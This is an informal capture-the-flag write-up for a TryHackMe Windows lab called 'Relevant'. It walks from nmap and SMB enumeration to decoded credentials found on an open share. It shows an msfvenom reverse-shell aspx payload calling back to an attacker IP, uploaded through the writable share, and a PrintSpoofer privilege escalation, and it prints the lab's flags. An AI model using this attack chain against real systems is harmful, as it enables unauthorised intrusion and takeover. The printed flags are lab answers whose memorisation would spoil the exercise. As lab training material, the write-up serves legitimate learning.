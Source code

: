 wafw00f:
----------

NO WAF


Nikto:
--------

No such vulnerablities

NMAP:
```
PORT      STATE SERVICE       REASON  VERSION
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0

135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-06-22T07:14:02+00:00

49663/tcp open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

smb enumeration:
```
Computer Name : Relevant

$ smbclient -L 10.10.0.156
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
```
```
$ smbclient //10.10.0.156/nt4wrksv
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jul 26 03:16:04 2020
  ..                                  D        0  Sun Jul 26 03:16:04 2020
  passwords.txt                       A       98  Sat Jul 25 20:45:33 2020

                7735807 blocks of size 4096. 5164898 blocks available
smb: \> type passwords.txt
type: command not found
smb: \> get passwords.txt 
getting file \passwords.txt of size 98 as passwords.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> SMBecho failed (NT_STATUS_CONNECTION_RESET). The connection is disconnected now
```
```
$ cat passwords.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

$ echo Qm9iIC0gIVBAJCRXMHJEITEyMw== | base64 -d
Bob - !P@$$W0rD!123

$ echo QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

Then using psexec.py (or, impacket-psexec)


But unable to get any shell with these creds...


Gobuster:
-----------

>for port 80 (http):     Was giving errors =>  No directories, I guess

>for port 49663 (http):	 

Checking with smbclient:


Smbclient:

>Saw that: we can upload file there...=> we have write priv. 

>=> and this server also contain same directory /nt4wrksv => shared directory ...!!

>uploaded a payload: 

>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.112.253 LPORT=4444 -f aspx -o rev.aspx

>to directory /nt4wrksv, in order to get a shell back from target...

NOTE: aspx => because .aspx file is used MS IIS .

```
port 4444 was not working => we took port 53 
==> probably port 4444 was not permitted as metasploit default port number is 4444

I again tried with port 4443 ==> we got a shell
```
### BUT
> When I tried exploit/multi/handler as listener in place of nc , I am not getting any meterpreter shell back 
from target

NOTE: 

we got a shell back and got the user.txt file

> ==> THM{fdk4ka34vk346ksxfr21tg789ktf45}


We used potato attack => PrintSpoofer64.exe 

> webserver directory for windows ==> c:\inetpub\wwwroot\

we uploaded the PrintSpoofer64.exe  to trgt and used it while traversing to c:\inetpub\wwwroot\

--> PrintSpoofer64.exe -i -c cmd


Then find root.txt in desktop directory of Administrator

---> THM{1fk5kf469devly1gl320zafgl345pv}


